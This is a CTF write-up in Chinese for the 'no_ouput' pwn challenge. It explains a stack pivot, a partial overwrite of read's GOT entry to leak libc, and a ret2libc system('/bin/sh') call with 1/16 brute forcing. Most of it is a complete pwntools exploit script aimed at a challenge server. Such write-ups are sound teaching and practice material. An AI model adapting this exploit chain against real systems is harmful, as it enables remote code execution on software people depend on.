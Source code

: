 # W5 no ouput

~~肯定是把output的t漏了~~

## 文件分析

下载`no_ouput`, NX on, PIE off, Canary off, RELRO full  
ghidra分析为64位程序

## 解题思路

没有输出函数，但是csu_init在，可以轻松控制寄存器，那么因为 read
函数离 write 函数很近，可以由此打印出read@got拿到libcBase，然后就能调
`system("/bin/sh")`

那么首先修改.bss上的read为write，栈迁移执行，然后再次栈迁移，在栈上放置
`system("/bin/sh")`  
要注意的是，由于write比read高不少，超过了0xFF，又已知ASLR不会改变末12位，
而改是一个字节一个字节改的，因此`read & 0xF000`这4位是赌的，每次有1/16的概率能中，
并不是执行脚本就能一次打下来的

## 踩过的坑

1. write函数是对系统调用的封装，因此开栈不大，可以放心迁移
2. system执行的参数在这题只能是libc里的shstr，在.bss上捏的就不行，
网上也搜不到结果，请懂的师傅发个discussion
3. read会读取字符直到换行符（前提是读取的字节不够），sleep再久也没用（recv可以打断输入，
这时可以不用换行符）
4. 网上写可以用`elf.search(str).next()`，实际上不行，库里只有__next__()魔法方法，
因此需要用next包裹，如`next(elf.search(str))`
5. 看准时间提交...虽然比赛是周日晚9点更新题目，但是结束是在早上9点...
做出来了没提交上:(

## EXPLOIT

```python
from pwn import *

def payload(lo):
    global sh
    if lo:
        sh = process('no_ouput')
        gdb.attach(sh, 'b system')
        libc = ELF('/usr/lib/libc.so.6')
    else:
        sh = remote('node4.buuoj.cn', 29390)
        libc = ELF('libc-2.31.so')
    elf = ELF('no_ouput')
    popRdi = 0x401253
    popRsiR15 = 0x401251
    readPlt = elf.plt['read']
    readGot = elf.got['read']
    readBss = 0x404050
    bssHigh = 0x404800
    leaveRet = 0x4011ea

    # payload 1, pivot stack to readBss and read in shstr, stack pivot instruction & patch from read to write
    sh.sendline(b'0'*112 + p64(readBss - 0x30) + p64(popRsiR15) + p64(bssHigh - 16) + p64(0) + p64(readPlt) +
        p64(popRsiR15) + p64(readBss + 8) + p64(0) + p64(readPlt) +
        p64(popRsiR15) + p64(readBss - 0x30) + p64(0) + p64(readPlt) + p64(leaveRet))
    print('p1 send')
    if lo & 0b10:
        sleep(5) # wait for gdb to make manual debug easier
    else:
        sleep(0.5)

    # payload 2, make "/bin/sh" on .bss
    sh.sendline(b'/bin/sh'.ljust(16, b'\0') + p64(popRdi) + p64(0) + p64(popRsiR15) + p64(bssHigh + 0x30) + p64(0) + p64(readPlt))
    print('p4 send')
    sleep(0.5)

    # payload 3, stack pivot instruction, after this procedure, rip = bssHigh
    sh.sendline(p64(leaveRet))
    print('p3 send')
    sleep(0.5)
    
    # payload 4, patch read, if 0b10 digit debug on, read real readAddr from user
    if lo & 0b10:
        patch = p16(int(input('read addr:'), 16) - 0x520 + 0x1020)
    elif lo:
        patch = p16(0x8020)
    else:
        patch = p16(0x3060)
    sh.send(p64(bssHigh - 8) + p64(popRdi) + p64(1) + p64(popRsiR15) + p64(readGot) + p64(0) + patch)
    print('p2 send')
    sleep(0.5)

    try:
        libcBase = u64(sh.recv(6) + b'\0\0') - libc.symbols['read']
        sh.recv() # skip remaining chars from write() above
        system = libcBase + libc.symbols['system']
        shstr = libcBase + next(libc.search(b'/bin/sh')) # in python 3, use next() magic func like this

        # payload 5, write systemAddr on .bss
        # sh.sendline(p64(popRdi) + p64(bssHigh - 16) + p64(system)) # shstr on .bss can't open shell!
        sh.sendline(p64(popRdi) + p64(shstr) + p64(system))
        print('p5 send')
        sh.interactive()
        sh.close()
        return 0
    except EOFError:
        # in this case, patch is incorrect, leading to SIGSEGV
        print('addr not match')
        sh.close()
        return 1

while payload(0):
    pass
```

Done.
